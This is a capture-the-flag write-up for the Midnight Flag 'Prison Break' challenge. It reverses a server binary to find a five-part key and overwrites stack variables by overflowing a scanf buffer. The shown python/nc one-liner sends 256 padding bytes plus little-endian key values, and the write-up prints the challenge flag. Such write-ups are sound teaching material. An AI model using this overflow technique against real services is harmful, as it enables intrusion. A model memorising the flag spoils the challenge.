





# Prison Break


````
[Noiche] : J'ai été envoyé au goulag l'année dernière à cause de mes challenges de PWN... Venez m'aider à sortir d'ici et je vous récompenserai :p

Accès au challenge : nc ctf.midnightflag.fr 9021

Format : MCTF{}

Auteur : Noiche
````

Files :

[Prison_Break](files/prison_break)

The file given is non executable and is just given to reverse the code of the server. We cannot get the flag only by reversing the file.

Here is what we get by connecting to the server using nc:



After writing anything, we get this message:

```
Noiche : NOOOO !! You droped the wrong key ! :(
Key    : [ 0x0 - 0x0 - 0x0 - 0x0 - 0x0 ]
```

Well, we will surely need to change this value in order to free Noiche. First we try a basic buffer overflow by flooding the input with A:

```sh
python -c "print 'A' * 1000" | nc ctf.midnightflag.fr 9021

...

Noiche : NOOOO !! You droped the wrong key ! :(
Key    : [ 0x41414141 - 0x41414141 - 0x41414141 - 0x41414141 - 0x41414141 ]
```

We can control the key! ...but we don't know what key do we need.

Let's take a quick look at the executable. We open it in [Cutter](https://cutter.re/), and we can directly see a function named `vuln`.



The function is pretty simple, we can see some parts that stand out.

The function set 6 memory spaces to 0, we can ignore `var_ch`:



It's seems that those are the memory spaces we overflowed before. All space are 4 bytes long and are next to each other.

There is a scanf and some comparisons just after:



The different parts of the key are being checked here. We can reproduce the key by using the parameters in each cmp: `0x800`, `0xfffffe49`, `0xb3350000`, `0x0` and `0x1000`.

We will fill the variable with A until we reach the start of the key and then write the actual key.

Since the stack is little endian, we will need to reverse each byte in every part of the key in the final payload (e.g. `0xfffffe49` will be `0x49feffff`).

The payload can be done using Python:
```sh
python -c "print 'A' * number_to_overflow + '\x00\x10\x00\x00' + '\x00\x00\x00\x00' + '\x00\x00\x35\xb3' + '\x49\xfe\xff\xff' + '\x00\x08\x00\x00'" | nc ctf.midnightflag.fr 9021
```

By guessing, we find that we need to write 256 bytes to reach the key in memory.

We can then replace `number_to_overflow` in our script by 256 and send it once again:



Here is the flag!

Flag: `MCTF{___1m_fr33_!_1_c4n_m4k3_m0r3_ch4ll5_n0w_!!!___}`

Author: Ooggle
